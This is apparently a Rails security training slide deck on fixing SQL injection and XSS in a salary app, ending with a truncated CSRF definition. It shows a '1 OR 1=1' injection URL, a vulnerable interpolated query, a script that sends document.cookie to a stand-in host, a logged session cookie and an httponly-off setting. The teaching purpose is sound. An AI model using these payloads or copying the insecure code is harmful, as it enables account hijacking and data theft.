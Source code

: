 !SLIDE bullets incremental
## Fixing exploits ##

# Day 1 - Injection #

* Early morning call from your customer.
* Some employees are complainning about others salary, how do they know how much others are gaining?

!SLIDE small incremental bullets
#Did some research#

- You found that that a user used an Injection attack. He modified the query string adding and update statement.
- Query: javascript:alert(escape('1 OR 1=1'))
- http://localhost:3000/raises/search?utf8=%E2%9C%93&search_raise=12
- http://localhost:3000/raises/search?utf8=%E2%9C%93&search_raise=1+OR+1%3D1

!SLIDE small incremental bullets
#Two basic errors#

* Wrong session and roles handling
* SQL Injection

!SLIDE bullets incremental small
#The fix#

* Previously had:
 * @raises = Raise.where(["user_id = #{current_user.id} and request_amount = #{params[:search_raise]}"])
* Now he have:
 * @raises = Raise.where(["user_id = ? and request_amount = ?", current_user, params[:search_raise]])
* We could also create a constraint for that route
 * get '/search/:query', :to => 'raises#index', :as => 'search', :constraints => {:options => /\d{5}/}

!SLIDE bullets incremental
#Sanitize input#

* Use whitelist validation, black lists are never complete
* Rails adds XSS protection by default in Rails3
* [SafeBuffers and Rails3.0](http://yehudakatz.com/2010/02/01/safebuffers-and-rails-3-0/)

!SLIDE bullets incremental
#RoR built-in filter for special SQL characters#

* Default scape for ’ , " , NULL character and line breaks
* Using Model.find(id) or Model.find_by_some thing(something)

!SLIDE bullets incremental
#RoR built-in filter...#

* In SQL Fragments, specially in conditions fragments it has to be applied manually
 * (:conditions => "...")
 * connection.execute() 
 * Model.find_by_sql() methods

!SLIDE bullets incremental

* Prefer:
 * Model.find(:first, :conditions => ["login = ? AND password = ?", entered_user_name, entered_password])
 * Model.find(:first, :conditions => {:login => entered_user_name, :password => entered_password})
 * Automatically sanitize tainted variables

!SLIDE bullets incremental
#Day 2 - Cross-Site Scripting(XSS)#

* Early morning call from your customer. Seems like somebody has been using his admin account.
* He lost control of the admin account.

!SLIDE bullets incremental
#server log#

* GET /_salary-manager_session=BAh7CCIQX2NzcmZfdG9rZW4iMWc4RTNDRERCZTVWSGxoV0lEWU5DeU93dEt1UForZjVBcm9wM2p0L3dEczg9Ig9zZXNzaW9uX2lkIiU4ZjRkNmZiMTQ2ZjdmMDA0YzU2NzVjODdlMGNhNDQwYSIZd2FyZGVuLnVzZXIudXNlci5rZXlbByIJVXNlcmkG--1cbc024cd3c3ba75d9df982f4615596dbc2bb2cf;%20a=1

!SLIDE bullets incremental smaller
#Harming script#

* &lt;script&gt;document.write('&lt;img src="http://localhost:80/' + document.cookie + '" &gt;')&lt;/script&gt;

!SLIDE bullets incremental smaller
#HTTPOnly#

* Rails3 enables HttpPOnly on cookies by default
* config/initializers/session_store.rb
* SalaryManager::Application.config.session_store :cookie_store, :key => '_acl_test_session', :httponly => false

!SLIDE bullets incremental smaller
#Sanitize input#

* Use whitelist validation, black lists are never complete
* validates_format_of :site, :with => /(^$)|(^(http|https):\/\/[a-z0-9]+([\-\.]{1}[a-z0-9]+)*\.[a-z]{2,5}(([0-9]{1,5})?\/.*)?$)/ix

!SLIDE bullets incremental
lso known as a one-click attack or session riding and abbreviated as CSRF ("sea-surf"[1]) or XSRF, is a type of malicious exploit of a website whereby unauthorized commands are transmitted from a user that the website trusts.
